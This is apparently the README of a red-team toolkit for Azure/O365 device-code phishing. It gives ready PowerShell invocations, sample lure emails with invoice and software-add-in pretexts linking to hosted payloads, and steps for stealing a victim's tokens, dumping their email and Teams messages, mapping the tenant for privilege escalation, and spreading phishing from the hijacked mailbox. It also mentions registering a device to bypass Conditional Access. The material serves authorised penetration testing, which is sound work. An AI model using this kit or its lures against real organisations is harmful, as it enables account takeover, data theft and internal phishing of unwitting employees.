 ![image](./ascii.png)

### "If you only get one.."

### Overview
This is a proof-of-concept script kit to assist in device code phishing during Azure/O365 testing. This tool was made to solve one problem - If you only get one chance, and then kicked out immediately, what would you hope you could do in that window? This tool will send a device code in one of the email templates, loot that users email and teams, then send an email as that user to whoever we choose. Use your first target to phish your second from a trusted address. It has optional modules for azurehound and some other recon steps. 

We import TokenTactics and AADInternals, then trigger an authentication flow for the graph and request a device code that is used to sign in. The device code gets replaced in a template and a sign in is prompted for the sending user. This is your pretext. This will give us an access token, and our refresh token. We use our access token with Outlook to send the template to the first user with the codethey need to use. When they enter this code, we get a set of tokens for them. The refresh token allows us to request new access tokens for various other Microsoft services. By refreshing new access tokens for Azure Core Management, MSTeams, Outlook, etc, we're able to move from service to service and pillage what we need without signing in multiple times on multiple sites. This allows for repid exfiltration of data from multiple avenues quicker than an analyst can triage any forthcoming alert. By minting an Outlook token, we can use the new account to send emails to additional targets and control the users mailbox.   

Script will check your OS (Windows or Linux) and install the required modules and Azurehound binary needed for post-exploitation activity automatically. That said, this may be buggy on linux, I haven't put it through it's paces there.

### Usage
You can use a *very* important project manager as your initial access vector, or someone else you'd like to use to map the tenant and send a link internally to a payload hosted elsewhere. Add modules you wish to run as arguments. You won't need Azurehound, etc, every time, but is a good way to start.

The variable $firstUser is the initial one you want to hijack, $targetUser is the eventual target you hope to reach. Template will be sent first in the background, if the user approves, the message passed here will be emailed to them as the first victim.

WARNING: When you get your first bite, SAVE THAT TOKEN LOG. Get the users tokens, and use them for your foothold. You should have a ton of recon, use this info with these tokens and az cli/AzureAD module to make your next moves. The TokenLog gets refreshed every time you run the script. You'll lose them if you arent mindful. There's a couple scripts to help with this. The first one creates a loot folder and backs up the loot files. It clears them for the next run. This loot folder is in the .gitignore but you should get in the habit of clearing after each run (or open a PR and add a switch case for it)

#### Stash loot in the 'loot' folder  
```powershell
.\LootStash.ps1
```

#### Clear all loot from current dir and that folder when you're done
```powershell
.\ClearLoot.ps1
```

#### Install requirements, perform full recon using azuread, AADInternals, and Azurehound modules, attempt to use payroll account to phish a particular accountant
```powershell
$targetUser = "accountant@corpomax.com"
$firstUser = "payroll@corpomax.com"
$messageContent = "Hey guys, <p> do you have any idea what this is? We need to pay it really soon, but we're having trouble accounting for it: https://collections.azurewebsites.net/invoice </p>  <p> Sincerely Yours.</p>"
$subject = "Invoice #3389 for Professional Services "
$template = "adobe" # or chatgpt, bluebeam, bbb, one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound -recon -azuread -install
```

#### With Azurehound and No Installation, phish a PM to phish IT for installation of required software
```powershell
$targetUser = "helpdesk@corpomax.com"
$firstUser = "MaxBedroom@corpomax.com"
$messageContent = "Hey guys, <p> our client is asking us to install an addin, something to do with the 'net' framework and PDFs, sounds lame, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the best, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "bluebeam" # or chatgpt, bluebeam, bbb, one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound
```

#### Phishing Only
Similar scenario, but trying  to use a new employee to get to a full administrator user via the 'chatgpt' template, a little quicker with no installation or Azurehound switch 

```powershell
$targetUser = "admin@corpomax.com"
$firstUser = "newemployee@corpomax.com"
$messageContent = "Hey guys, <p> the client is asking us to install an addin, something to do with the 'period net' framework and PDFs, sounds gross, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the unsung heroes of CorpoMax, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "chatgpt"

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template
```

### Modules
It's modular, azurehound is one, AADInternals recon, AzureAD enumeration, etc. Recon.ps1, azuread.ps1, azurehound.ps1 are standalones that take access tokens or whatever params needed to do the thing. You can easily rip these out and use them in your own madness, if you want. I tried to make things as flexible as possible. Once you've mapped the tenant, performed recon and built your new lists you may as well as just use it for additional phishing and omit those switches. 

### Templates
Adding a template to this is really easy. Look at the ones here and Replace.ps1, you can see we're looking for and replacing '(((VERIFICATION)))' in the html body. This is the device code that gets generated. If you place one in a new template and add a couple lines of code to Replace.ps1 and Next.ps1 you can use your own.

For replace.ps1, create a new elseif statement for the new template and a template for Chipotle, name the template chipotleHTML.htm and make sure it's creating new version by providing a destination path/filename for what 'replace' creates. I have it creating it in the template folder, it could be a temp folder, you can do whatever you want, I just like to use the repo folder as a workspace. Htm/HTML doesnt matter, consistency does, though. 

```powershell
elseif($template -eq "chipotle"){
    $sourceFile = ".\Templates\chipotleHTML.htm"
    $destinationFile = ".\Templates\chipotle.htm"
}
```

For next.ps1, add a switch and a subject, we need to parse what you want from the command line. If it's 'chipotle', put chipotle, 
```powershell

switch ($template) {
# Add a block with path and subject inside the template switch case
...  
    "chipotle" { 
        $templatePath = ".\Templates\chipotle.htm"
        $subjects = @("Chipotle wants you back.")
        break 
    }
...

}
```

### Phase 1 - Recon
If modules are specified, once you receive an access token, the script will automatically perform requested recon of tenant, user and groups using AADInternals or Azurehound. Can generate a list of users with detailed information (SIDs, valid sessions, phone number, identities) is exported and useable user list for the spreader function is generated. Groups, users, internal recon, etc output to json in the same directory as the script.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/01e9fd43-b20f-48c2-a8b3-9fdc1b5ae6ad)

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/83a3398c-bf41-47e3-bfa6-e480bddd0fc2)

Using the latest version of Azurehound for your platform, the Azure tenant will be mapped and output to a format you can load into Neo4j for graphing attack paths. This will show you what the newly compromised account has access to and possible ways you can escalate your privileges across the tenant to gain Global Administrator / whatever you desire.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/ec598ff5-e82d-4a36-acfb-f887e9b18b55)


### Phase 2 - Loot
It will dump the compromised users last 200 emails from their inbox and all their teams messages by default. Optional modules include azureHound, azureAd and Recon. If the azureAd module is used, a user list is generated for further phishing attacks, as well as groups. if the recon module is used, AADInternals authenticated recon modules will run.  

<b><u>WARNING:</u></b> Just to re-iterate that last bit.. this will export a lot of sensitive information to the folder you run this from, as that is it's intended purpose. Please clean up your workspace / don't commit the loot to main 


### Phase 3 - Spread
Specifying "-targetUser" and "-messageContent" will let you pass an email address and phishing pretext to use the compromised account as an internal relay and attempt to move laterally or capitalize on a trusted relationship with an external third party.


### Extras

V2 - Included the V2 fork of TokenTactics in the repo, just so you know it exists. It has additional features but at the time I made this tool they weren't playing nice and it wasn't worth trying to make it work. I think that's mostly fixed, if you want to try this script with V2, modify PhirstPhish.ps1 and insert the URL to the V2 repo https://github.com/f-bader/TokenTacticsV2 and try it? Shouldn't take much to make that work, but will give you access to the extended Continus Access Evaluation tokens, if ya nasty: https://learn.microsoft.com/en-us/entra/identity/conditional-access/concept-continuous-access-evaluation

RoadTools.ps1 - proof of concept that uses TokenTactics to generate a token for RoadTools which will gather conditional access policy info and register a device that could bypass Conditonal Access. As is, play with it, make it your own.


### Acknowledgements 

Huge thanks to Bobby Cook https://github.com/boku7 and Beaux Bullock https://github.com/dafthack for all the amazing Azure/O365 pentesting resources and classes that got me started 

Shout-out to Steve Borosh https://github.com/rvrsh3ll for the amazing TokenTactics module used in Refreshing tokens and certain post-ex activites here, picking apart your code was hugely helpful in understanding this stuff.

Shout-out to the venerable Dr Nestori Syynimaa (@DrAzureAD), too, for laying all the groundwork with AADInternals https://github.com/Gerenios/AADInternals, used here extensively. Hell of a toolbox and his blog is like a free AzureAD pentesting e-book.

PRs welcome!
